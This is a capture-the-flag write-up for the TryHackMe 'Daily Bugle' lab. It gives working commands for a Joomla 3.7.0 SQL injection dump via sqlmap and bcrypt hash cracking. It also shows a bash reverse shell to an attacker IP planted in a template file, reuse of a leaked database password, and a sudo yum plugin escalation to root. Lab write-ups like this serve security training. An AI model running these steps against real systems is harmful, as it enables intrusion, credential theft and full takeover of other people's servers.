 ```yaml
---
title: Writeup Daily Bugle (THM)
layout: post
author: hyprcub
tags: writeup
---
```

# TL;DR

This [Try Hack Me box](https://tryhackme.com/room/dailybugle) features mainly SQLi and hashes cracking. It goes as follow:
- exploit an [SQL injection vulnerability in Joomla 3.7.0](https://www.exploit-db.com/exploits/42033) to get a password hash
- crack it and use the credentials to log in the CMS
- inject a one-line PHP reverse shell in Joomla's default template code
- mine passwords to escalate to a regular user
- abuse `sudo` and `yum` to get full privileges.

# Enumeration

## Ports and Services

We start we the usual ports scanning:
```bash
export target=10.10.175.125
nmap $target -p- -A -oN tcp_ports.txt
sudo nmap $target -sU -oN udp_ports.txt
```

From the results:
```
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-favicon: Unknown favicon MD5: 1194D7D32448E1F90741A97B42AF91FA
|_http-generator: Joomla! - Open Source Content Management
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
|_http-title: Home
3306/tcp open  mysql   MariaDB (unauthorized)
```
we learn a bunch of things. Mainly, that there is a [Joomla! CMS instance](https://www.joomla.org/) on **port 80/tcp**.

## Port 80/tcp

To get Joomla's version one can read the `README.txt` or use [OWASP Joomscan](https://github.com/OWASP/joomscan) :
```bash
curl $target/README.txt
```

```
1- What is this?
	* This is a Joomla! installation/upgrade package to version 3.x
	* Joomla! Official site: https://www.joomla.org
	* Joomla! 3.7 version history - https://docs.joomla.org/Joomla_3.7_version_history
	* Detailed changes in the Changelog: https://github.com/joomla/joomla-cms/commits/master

[SNIP]
```
This is **Joomla 3.7**.

# Low Level Access

## SQLi
This particular Joomla version is subject to an [SQL injection vulnerability](https://www.exploit-db.com/exploits/42033). One can exploit it with [sqlmap](http://sqlmap.org/) to get a password hash:
```bash
sqlmap -u "http://$target/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomla -T '#__users' --dump -C username,password
```

It gives:
![sqlmat output]({{ "/assets/img/daily-bugle-sqlmap.png"| absolute_url }})
For manual exploitation of this blind SQLi, see [hack3rman's considerations](https://github.com/hack3rman/TryHackMe/blob/master/Daily%20Bugle.md) and [his python script](https://github.com/hack3rman/TryHackMe/blob/master/Scripts/db-blind.py).

## Hash cracking

One can identify the hash using [haiti](https://noraj.github.io/haiti/#/):
```bash
echo $2y$[OBFUSCATED] > hash
haiti $(cat hash)
```
```
Blowfish(OpenBSD) [HC: 3200] [JtR: bcrypt]
Woltlab Burning Board 4.x
bcrypt [HC: 3200] [JtR: bcrypt]
```
**bcrypt** format  is confirmed by looking at [hashcat's wiki](https://hashcat.net/wiki/doku.php?id=example_hashes).

Then one crack it with [hashcat](https://hashcat.net):
```bash
export dict=/usr/share/wordlists/rockyou.txt
hashcat -m 3200 hash $dict
```
![Hashcat output]({{ "/assets/img/daily-bugle-hashcat.png" | absolute_url }})

## Shell

Now that we have credentials one can log in Joomla's administrator panel located at `http://$target/administrator/` and navigate to Joomla's defaut template to inject shell code into `/index.php`, namely:
```php
shell_exec("/bin/bash -i >& /dev/tcp/10.11.31.164/443 0>&1");
```
See below:
![shell code in a PHP file]({{ "/assets/img/daily-bugle-shell-code.png"| absolute_url }})

After having set up a netcat listener  and triggered the shell with `curl $target` one gets a command line as the user `www-data`:
![a shell as www-data]({{ "/assets/img/daily-bugle-shell.png" | absolute_url }})

Before proceeding to privilege escalation, let's enhance the shell:
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm-256color
export PS1="(\u@\h) [\w]\$ "
alias ll="ls -al --color=auto" # yes, I like colors
```
see [ropnop's blog](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) for further details.

# Privilege Escalation

## Escalating to jjameson user

Doing the usual password mining, one can find the following lines in the file `/var/www/html/configuration.php`:
```php
public $user = 'root';
public $password = 'nv5uz9r3ZEDzVjNu';
```
which are the admin credentials for MySQL. The password is also good for the user `jjameson`:
![su as jjameson]({{ "/assets/img/daily-bugle-jjameson.png" | absolute_url }})

## Abusing sudo and yum

Checking `sudo -l` is one of the quickest win:
```
Matching Defaults entries for jjameson on dailybugle:
	!visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
	env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
	env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
	env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
	env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
	env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
	secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
	(ALL) NOPASSWD: /usr/bin/yum
```

According to [GTFOBins](https://gtfobins.github.io/gtfobins/yum/), `yum` can be abused to get full privileges:
```bash
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```
![root shell]({{ "/assets/img/daily-bugle-root.png" | absolute_url }})
